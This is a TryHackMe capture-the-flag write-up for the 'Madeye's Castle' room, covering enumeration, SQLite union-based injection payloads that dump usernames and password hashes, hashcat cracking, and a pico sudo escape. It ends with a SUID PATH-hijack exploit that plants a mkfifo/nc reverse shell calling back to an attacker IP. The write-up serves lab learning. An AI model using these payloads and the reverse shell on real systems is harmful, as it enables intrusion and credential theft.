


# [Madeye's Castle](https://tryhackme.com/room/madeyescastle) TryHackMe Writeup


This room made me learn many things through the process, including sql injection , vulnerability in rand() function and also regex !. 

I highly recommend doing [SQL Injection Lab](https://tryhackme.com/room/sqlilab) before doing this as it starts from basics and explains very well . It has some very good challenges which will be useful in any rooms involving sqli.


## __First Stage : Enumeration__


So let's start with nmap 


```
# Nmap 7.91 scan initiated Mon Feb  1 19:16:19 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.159.205
Increasing send delay for 10.10.159.205 from 0 to 5 due to 25 out of 62 dropped probes since last increase.
Increasing send delay for 10.10.159.205 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.159.205
Host is up, received syn-ack (0.17s latency).
Scanned at 2021-02-01 19:16:20 IST for 2467s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:5f:48:fa:3d:3e:e6:9c:23:94:33:d1:8d:22:b4:7a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSmqaAdIPmWjN3e6ubgLXXBGVvX9bKtcNHYD2epO9Fwy4brQNYRBkUxrRp4SJIX26MGxGyE8C5HKzhKdlXCeQS+QF36URayv/joz6UOTFTW3oxsMF6tDYMQy3Zcgh5Xp5yVoNGP84pegTQjXUUxhYSEhb3aCIci8JzPt9JntGuO0d0BQAqEo94K3RCx4/V7AWO1qlUeFF/nUZArwtgHcLFYRJEzonM02wGNHXu1vmSuvm4EF/IQE7UYGmNYlNKqYdaE3EYAThEIiiMrPaE4v21xi1JNNjUIhK9YpTA9kJuYk3bnzpO+u6BLTP2bPCMO4C8742UEc4srW7RmZ3qmoGt
|   256 53:75:a7:4a:a8:aa:46:66:6a:12:8c:cd:c2:6f:39:aa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCDhpuUC3UgAeCvRo0UuEgWfXhisGXTVUnFooDdZzvGRS393O/N6Ywk715TOIAbk+o1oC1rba5Cg7DM4hyNtejk=
|   256 7f:c2:2f:3d:64:d9:0a:50:74:60:36:03:98:00:75:98 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGnNa6K0GzjKiPdClth/sy8rhOd8KtkuagrRkr4tiATl
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: Amazingly It works
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: HOGWARTZ-CASTLE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1m09s, deviation: 0s, median: -1m10s
| nbstat: NetBIOS name: HOGWARTZ-CASTLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   HOGWARTZ-CASTLE<00>  Flags: <unique><active>
|   HOGWARTZ-CASTLE<03>  Flags: <unique><active>
|   HOGWARTZ-CASTLE<20>  Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 45924/tcp): CLEAN (Timeout)
|   Check 2 (port 51360/tcp): CLEAN (Timeout)
|   Check 3 (port 13244/udp): CLEAN (Timeout)
|   Check 4 (port 56037/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: hogwartz-castle
|   NetBIOS computer name: HOGWARTZ-CASTLE\x00
|   Domain name: \x00
|   FQDN: hogwartz-castle
|_  System time: 2021-02-01T14:25:37+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-01T14:25:38
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  1 19:57:27 2021 -- 1 IP address (1 host up) scanned in 2468.23 seconds
```


So the ports that are open:

* 22
* 80
* 139
* 445

So I visited the port 80 first.


So I didn't get much from gobuster , but when I saw the source code this one caught my eye.


So I added **hogwartz-castle.thm** in /etc/hosts

Then I visited it.


Then I went to enumerate smb.


So there is an interesting share called __sambashare__


So let's enumerate it using 

> smbclient -N \\\\hogwartz-castle.thm\\sambashare


So there are two files.

The content of notes.txt :

```
Hagrid told me that spells names are not good since they will not "rock you"
Hermonine loves historical text editors along with reading old books.
```
The spellnames.txt contained some names supposed to be passwords . 

So we got 3 names 

> harry (from samba), hagrid , hermonine


So I saved these names and used spellnames as passwords and bruteforced the web as well as ssh. Both failed . Then I used sqlmap to find if it is vulnerable to sqli.

So sqlmap found a vulnerability but couldn't exploit.


Let's open burpsuite .


I captured the request and sent it to repeater .


First I sent **'** I got internal server error which confirms it is vulnerable.


Next I sent 

> ' union select 1-- -

Here I am trying to find how many coloumns are there , keep adding like 2,3,4 and so on until we get a result.
The last dashes are to comment out the queries following it.

So after some tries we get response for 

> ' union select 1,2,3,4-- -


So there are four coloumns .


Next we have to find which coloumns are vulnerable.

To find that do 

> ' union select 11,22,33,44-- -

Now we get that 1 and four are vulnerable.


So let's start enumerating table names .

But before that we have to know what sql is this.

For sqlite use **sqlite_version()** if we get a reply then it is sqlite.




Hence it is sqlite.


So let's find table name using 

> ' union select group_concat(tbl_name),2,3,4 FROM sqlite_master-- -


Hence we get the table name as users.

Next aim is to find coloumn names . We can find using

>' union select sql,2,3,4 FROM sqlite_master  WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -


```
CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)
```
So coloumns are :

* name
* password
* admin
* notes

First we try to get __password__ using 

>'union select group_concat(password),2,3,4 FROM users-- -


So we get hashes let's save it to a txt file.


Next __notes__ using 


> 'union select group_concat(notes),2,3,4 FROM users-- -


Next __name__ using 


>'union select group_concat(name),2,3,4 FROM users-- -

Let's save these names to a file.


## __Second Stage : Initial access as user__


Hence before trying to crack the hashes we have to identify them.


So it is possibly __SHA-512__

In the **notes** coloumn we get a clue about password .


So I thought that best64 might be the rule which I have encountered . So I combined the spellnames and best64 .

Using 

> hashcat --stdout -r /usr/share/hashcat/rules/best64.rule spellnames.txt > wordlists.txt


Hence I used the wordlists.txt and cracked the hashes .


One hash cracked and I got a password and many users. I doubted the user might be Harry Turner because it was one of the names we found previously.


So I tried Harry Turner in login page and got a different response.


Hence the username is __harry__.


## __Third Stage : harry to hermonine__


So if we try sudo -l we get


So searching on gtfobins we get 

```
sudo -u hermonine /usr/bin/pico -s /bin/sh
/bin/sh
^T
```


## __Fourth Stage : hermonine to root__


So first I ran linpeas and nothing caught my eye , then I used manual enumeration.

While finding **SUID** binaries one binary caught my eye
> find / -type f -perm -u=s 2>>/dev/null


So I went to **/srv/time-turner/** directory and ran the binary.


So it is a number guessing game I suppose.


So I transfered the binary to local machine and put it in ghidra.


So it is using rand function and storing a number and asks us to guess it , if it is right it call the function called **impressive()** or else it prints the random number and exits.


So impressive function calls uname without proper path , hence we can try to exploit this for rce.


But first we have to guess the number correctly so that we can exploit this vuln. I searched for vulnerability in rand and from the hint I understood we can use time factor.

So I tried this 

> for i in $(seq 1 6) ; do echo 123 | ./swagger ; done


Hence this shows that the same number is being repeated , we can use this to our advantage . 


Hence the exploit is


```shell

touch /tmp/uname
chmod +x /tmp/uname
export PATH=/tmp:$PATH
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 1234 >/tmp/f " > /tmp/uname
```

Now we have to find a way to send the number which was generated back to the binary itself , so I know we have to use grep but how to filter the number only and send . Here is where regex comes into place .So I searched regex and learnt some and found one which was working.


> ./swagger| grep -oE '[0-9]+' | ./swagger


If we do this one liner 


And we get a shell back to our machine





Hence this was a very fun room and I learnt many things thorugh the process . 


